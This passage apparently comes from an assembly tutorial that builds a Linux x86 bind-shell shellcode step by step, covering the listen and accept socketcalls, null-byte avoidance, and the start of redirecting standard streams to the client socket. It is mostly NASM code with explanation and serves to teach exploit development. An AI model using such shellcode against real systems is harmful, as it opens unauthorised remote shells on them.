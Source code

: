 ```nasm
xor eax, eax
```

## Configuring the socket to listen
	
Once again we'll be using socketcall(), this time with the SYS_LISTEN option (4) along with its two arguments which are our socket and the backlog argument.

Currently EAX contains 0, so we'll PUSH that along with our socket still stored in EDI.

```nasm
push eax
push edi
mov ecx, esp
```

Now the arguments are setup on the stack, we will need to store 4 in EBX and 0x66 for our socketcall in EAX. Since EBX is currently set to 2, we can simply increment it twice. Again, we'll need to MOV 0x66 into AL.

```nasm
inc ebx
inc ebx
mov al, 0x66
int 0x80
```

## Accept Connections

Referring back to our C code again we can see that accept was setup as follows:

```c
accept(host_sock, NULL, NULL);
```

First things first, let's setup the stack by pushing two 0's. To avoid nulls in the shellcode we'll XOR EDX with itself and then PUSH it twice to the stack.

```nasm
xor edx, edx
push edx
push edx
```

Next we'll push our socketfd to the stack from EDI. We also know that SYS_ACCEPT is defined as 5. EBX is already at 4, so we can do another increment here. The rest should be self-explanatory by now. 

```nasm
push edi
inc ebx
mov ecx, esp
mov al, 0x66
int 0x80
```

Our client socket will be returned into EAX so we'll need to preserve that by moving it out. Since our next step will be redirecting STDIN, STDOUT, and STDERR we can move this into EBX since it will need to be there as an argument for the dup2() syscall. 
